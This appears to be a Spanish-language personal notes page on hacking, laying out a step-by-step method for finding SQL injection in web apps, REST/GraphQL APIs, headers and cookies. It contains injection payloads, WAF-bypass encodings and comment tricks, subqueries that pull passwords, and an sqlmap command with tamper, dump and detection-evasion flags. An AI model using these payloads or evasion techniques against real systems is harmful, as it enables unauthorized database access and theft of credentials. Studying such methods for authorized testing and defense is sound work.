 ```yaml
---
tags:
  - HackingTools
---
```

---
***!*** Tu sistema está configurado para servir archivos desde **`/srv/http`** en lugar de la tradicional **`/var/www/html`**
***!*** En Arch Linux, el servicio `httpd.service` corresponde a **Apache**

- https://portswigger.net/web-security/sql-injection/cheat-sheet
- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#SQLInjectionQuickChecks
- https://github.com/payloadbox/sql-injection-payload-list

**SQL Injection** (**SQLI**) es una técnica de ataque utilizada para explotar vulnerabilidades en aplicaciones web que **no validan adecuadamente** la entrada del usuario en la consulta SQL que se envía a la base de datos. Los atacantes pueden utilizar esta técnica para ejecutar consultas SQL maliciosas y obtener información confidencial, como nombres de usuario, contraseñas y otra información almacenada en la base de datos.

***!*** No busques solo en URLs con `id=1`, revisa JSON, headers y APIs.

---

# **🚀 Metodología para Encontrar SQLi Moderno (Paso a Paso)**

📌 **Objetivo:** Encontrar SQLi en aplicaciones modernas que usan **WAFs, ORM, frameworks y validaciones avanzadas**.  
📌 **Problema:** **Las inyecciones básicas (`' --`) ya no suelen funcionar**, por lo que necesitamos técnicas más avanzadas.

---

## **🟢 1️⃣ Identificar Parámetros Potenciales para SQLi**

📌 **¿Dónde buscar?**  
✅ **URLs con parámetros (GET/POST)**  
Ejemplo:

```
https://target.com/profile.php?id=123
```

✅ **JSON en APIs REST/GraphQL**

```json
{
  "user": "admin"
}
```

✅ **Cookies, User-Agent y Referer**

```http
Cookie: session=123
User-Agent: Mozilla/5.0' OR 1=1 --
```

✅ **Puntos No Tradicionales: URLs Amigables**  
Ejemplo:

```
https://target.com/home/<POTENCIAL SQLi>
```

📌 **¿Puedo inyectar en URLs como `home/<aquí>`?**  
➡️ **Depende de cómo el backend maneja el enrutamiento.**  
Si `home/<valor>` se usa internamente en una consulta SQL, **sí podría ser vulnerable**.  
🔹 Prueba agregar comillas o caracteres especiales:

```
https://target.com/home/test'
https://target.com/home/1' OR 1=1 --
```

📌 **Si la URL se transforma internamente en una consulta SQL como esta:**

```sql
SELECT * FROM paginas WHERE slug = 'home/test';
```

🎯 **Entonces es vulnerable a SQLi.**

➡️ **Recomendación:** Captura peticiones con Burp Suite y revisa si la URL se refleja en headers o respuestas.

---

## **🟡 2️⃣ Evadir Filtrados y WAFs**

Las protecciones modernas filtran `' OR 1=1 --`, pero podemos **bypassearlas** con:

🔹 **Codificación:**  
✅ **UTF-8, Unicode:**

```
%C2%BF OR 1=1 --
```

✅ **Hexadecimal:**

```
0x70617373776F7264  -- (Traduce "password" a hex)
```

✅ **Base64:**

```
YWRtaW4nICBPUiAxPTEtLQ==
```

🔹 **Técnicas de Bypass WAF**  
✅ **Comentarios entre palabras clave:**

```sql
1 /*!50000UNION*/ /*!50000SELECT*/ user, password FROM users;
```

✅ **Uso de palabras clave alternativas:**

```sql
SELECT username FROM users WHERE id=1 LIMIT 1;
```

Prueba:

```
id=1' LIMIT 1 --
```

✅ **Uso de subconsultas:**

```sql
SELECT (SELECT password FROM users LIMIT 1) FROM dual;
```

➡️ **Esto puede funcionar si la consulta no permite `UNION`.**

---

## **🟠 3️⃣ SQLi en APIs REST/GraphQL (No URLs Simples)**

En sistemas modernos, la SQLi ocurre en **cuerpos JSON, headers o parámetros internos**.  
Ejemplo de petición REST:

```json
{
  "username": "admin",
  "password": "' OR 1=1 --"
}
```

📌 **Bypass con JSON Injection:**

```json
{
  "user": {"$ne": null}
}
```

📌 **Inyección en GraphQL:**

```graphql
{
  user(id: "1' OR 1=1 --") {
    username
    email
  }
}
```

➡️ **Cómo testear APIs:** Usa Burp Suite y prueba modificar los valores de los JSONs enviados.

---

## **🔴 4️⃣ Automatización con SQLMap en Casos Complejos**

Si confirmas que un parámetro puede ser vulnerable, usa SQLMap con técnicas avanzadas:

```bash
sqlmap -u "https://target.com/api/user?id=1" --level=5 --risk=3 --tamper=space2comment.py --dump
```

✅ `--tamper` usa scripts para evadir WAFs.  
✅ `--level=5 --risk=3` prueba payloads más agresivos.  
✅ `--dump` extrae datos de la base de datos.

➡️ **Si la web usa WAF fuerte, prueba con `--random-agent --delay=2` para evadir detección.**

---

# **📌 Conclusión**

✅ **No busques solo en URLs con `id=1`, revisa JSON, headers y APIs.**  
✅ **Si la web usa enrutamiento como `home/<valor>`, prueba inyecciones ahí.**  
✅ **Evita ataques básicos y usa técnicas como Unicode, subconsultas y JSON Injection.**  
✅ **Automatiza con SQLMap cuando confirmes que hay SQLi posible.**
